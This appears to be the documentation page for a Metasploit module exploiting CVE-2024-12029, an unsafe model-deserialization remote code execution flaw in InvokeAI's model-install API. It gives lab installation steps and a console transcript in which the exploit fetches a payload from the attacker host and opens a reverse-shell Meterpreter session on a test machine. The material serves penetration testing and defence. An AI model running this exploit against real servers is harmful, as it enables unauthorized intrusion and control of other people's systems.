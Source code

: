 ## Vulnerable Application

InvokeAI has a critical vulnerability leading to remote code execution
in the /api/v2/models/install API through unsafe model deserialization.
The API allows users to specify a model URL, which is downloaded and loaded server-side using torch.load without proper validation.
This functionality allows attackers to embed malicious code in model files that execute upon loading.

The vulnerability affects:

    * 4.0.0 <= InvokeAI <= 5.4.2

This module was successfully tested on:

    * InvokeAI 5.3.1 installed on Ubuntu 22.04


### Installation

Follow the [official instructions](https://invoke-ai.github.io/InvokeAI/installation/manual/#walkthrough)

1. Install uv:

`curl -LsSf https://astral.sh/uv/install.sh | sh`

2. Create a directory for your installation:

```bash
mkdir ~/invokeai
cd ~/invokeai
```

3. Create a virtual environment in that directory:

`uv venv --relocatable --prompt invoke --python 3.11 --python-preference only-managed .venv`

4. Activate the virtual environment:

`source .venv/bin/activate`

5. Install the invokeai package:

```bash
uv pip install invokeai==5.3.1 --python 3.11 --python-preference only-managed --index=https://download.pytorch.org/whl/cpu --force-reinstall
```

6. Deactivate and reactivate your venv so that the invokeai-specific commands become available in the environment:

`deactivate && source .venv/bin/activate`

7. Edit ~/invokeai/invoke.yaml:

```yaml
  # Internal metadata - do not edit:
  schema_version: 4.0.2
  
  # Put user settings here - see https://invoke-ai.github.io/InvokeAI/features/CONFIGURATION/:
  host: 0.0.0.0 # serve the app on your local network
```

8. Run the application, specifying the directory you created earlier as the root directory:

`invokeai-web --root ~/invokeai`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/invokeai_rce_cve_2024_12029`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/invokeai_rce_cve_2024_12029
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > options

Module options (exploit/linux/http/invokeai_rce_cve_2024_12029):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    9090             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      CdRqUbPlDQJ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 5.3.1 detected.
[*] Using URL: http://192.168.56.1:8081/Z8KmlibT
[*] Server started.
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:48294) at 2025-02-16 15:24:41 +0900
[*] Server stopped.

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
